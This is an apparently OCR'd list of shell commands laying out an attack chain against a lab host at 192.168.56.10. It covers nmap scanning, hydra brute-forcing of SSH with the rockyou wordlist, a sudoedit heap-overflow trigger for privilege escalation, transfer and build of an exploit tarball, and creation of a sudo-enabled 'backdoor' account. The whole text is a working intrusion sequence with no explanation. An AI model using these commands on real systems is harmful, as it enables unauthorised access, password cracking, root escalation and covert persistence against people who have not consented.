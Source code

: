sudo nmap -sS -p22 192.168.56.0-20
sudo nmap -sV -O -p22 192.168.56.10

#cd /usr/share/wordlists

sudo gzip -d -k /usr/share/wordlists/rockyou.txt.gz
hydra -l eric -P /usr/share/wordlists/rockyou.txt 192.168.56.10 ssh
ssh eric@192.168.56.10
password
sudoedit -s '\' `perl -e 'print "A" x 65536'`

sudo -V
hostnamectl

cd /blah/blah
make

# rm ~/.ssh/known_hosts
scp exploit.final.tar eric@192.168.56.10:/home/eric/

sudo apt install build-essential
sudo apt install gcc

sudo adduser backdoor
sudo usermod -aG sudo backdoor

